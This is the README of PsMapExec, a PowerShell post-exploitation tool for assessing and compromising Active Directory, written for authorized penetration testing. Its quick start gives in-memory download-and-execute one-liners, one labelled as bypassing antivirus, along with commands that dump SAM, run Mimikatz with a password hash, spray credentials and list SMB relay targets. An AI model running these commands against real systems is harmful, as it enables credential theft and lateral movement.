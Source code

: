 # PsMapExec

More detailed documentation on how to use PsMapExec is available on Gitbook: https://viperone.gitbook.io/pentest-everything/psmapexec

## What is PsMapExec

A PowerShell tool heavily inspired by the popular tool CrackMapExec. Far too often I find myself on engagements without access to Linux in order to make use of CrackMapExec. 

PsMapExec is used as a post-exploitation tool to assess and compromise an Active Directory environment. 

## What methods does it support

Currently supported  methods (Protocols)

* RDP
* Session Hunting
* SMB
* SMB Signing
* Spraying (Hash, Password)
* WinRM
* WMI

Planned methods

* MSSQL (In testing)
* IPMI
* SNMP
* FTP
* SSH
## Quick Start
### Load the script directly into memory (Bypass AV)
```
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/PME-Scripts/main/Invoke-NETMongoose.ps1");IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/PsMapExec/main/PsMapExec.ps1")
```
### Load the script directly into memory
```
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/PsMapExec/main/PsMapExec.ps1")
```
\
Execute some commands over WMI
```
PsMapExec -Targets Servers -Username Admin -Password Pass -Method WMI -Command "net user"
```
\
Check RDP access across all systems
```
PsMapExec -Targets All -Username Admin -Password Pass -Method RDP
```
\
Dump SAM over WinRM and Parse the results
```
PsMapExec -Targets Servers -Username Admin -Password Pass -Method WinRM -Module SAM -Option Parse
```
\
Authenticate over WMI with a hash and execute mimikatz
```
PsMapExec -Targets Workstations -Username Admin -Hash [Hash] -Method WMI -Module LogonPasswords -Option Parse -ShowOutput
```
\
Check SMB Signing on all domain systems
```
PsMapExec -Targets All -GenRelayList
```
## Detailed Usage
* https://viperone.gitbook.io/pentest-everything/psmapexec
* https://viperone.gitbook.io/pentest-everything/psmapexec/using-credentials
* https://viperone.gitbook.io/pentest-everything/psmapexec/methods
* https://viperone.gitbook.io/pentest-everything/psmapexec/modules
* https://viperone.gitbook.io/pentest-everything/psmapexec/spray


## Aknowledgements
## Dependencies
PsMapExec has some dependencies that need to be pulled from outside the script itself in order to use additional modules. 
Primarily these are:
  * Kirby (PowerShell based Kerberos ticket dump)
  * Invoke-Pandemonium (Slightly modified Mimikatz)

Currently, they are pulled from a seperate GitHub repository: https://github.com/The-Viper-One/PME-Scripts \
If you are working within an environment that has no external access or GitHub is blocked by a firewall you will need to clone the scripts in the respository onto the system from which PsMapExec is running from.

PsMapExec does not currently host a HTTP server for these so you will need to use something like HFS: https://www.rejetto.com/hfs/?f=dl
PsMapExec supports pointing to a locally or alternatively hosted server for the script dependencies.
```
PsMapExec -Targets All -Username [User] -Password [Pass] -LocalFileServer [IP]
```
![image](https://github.com/The-Viper-One/PsMapExec/assets/68926315/499ce08a-153f-434c-ae80-9df24afbe5e4)

## Support me
<a href="https://www.buymeacoffee.com/ViperOne" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-blue.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>


## Example Images

### Command Execution
![image](https://github.com/The-Viper-One/PsMapExec/assets/68926315/e770e2b3-d441-4094-8a14-94848a3b6b74)

### SAM Dump
![image](https://github.com/The-Viper-One/PsMapExec/assets/68926315/f00a5468-ee99-4db3-82f5-e59223ecf219)


### Mimikatz
![image](https://github.com/The-Viper-One/PsMapExec/assets/68926315/a576b9c8-703e-423e-8041-44daca6cf335)

### RDP Access
![image](https://github.com/The-Viper-One/PsMapExec/assets/68926315/ba875e2f-5898-4c10-a33c-7bcb9ef3a2f5)

# Disclaimer
PsMapExec is designed primarily for research, educational, and authorized testing scenarios. The purpose of developing and distributing PsMapExec is to provide professionals and researchers with a tool to understand and identify vulnerabilities and to bolster the security of systems. It is fundamentally imperative that users ensure they have obtained explicit, mutual consent from all involved parties before applying this tool on any system, network, or digital environment.

Engaging in unauthorized activities, including, but not limited to, accessing systems without permission, can lead to severe legal consequences. Users must be fully aware of, and adhere to, all their jurisdictional, local, state, and federal laws and regulations concerning cybersecurity and digital access.

The developers, contributors, and all affiliated parties of PsMapExec expressly disclaim all liabilities and responsibilities for any unauthorized or illicit use of the tool. Additionally, they are not responsible for any consequent damages, losses, or repercussions stemming from the misuse or misapplication of PsMapExec.


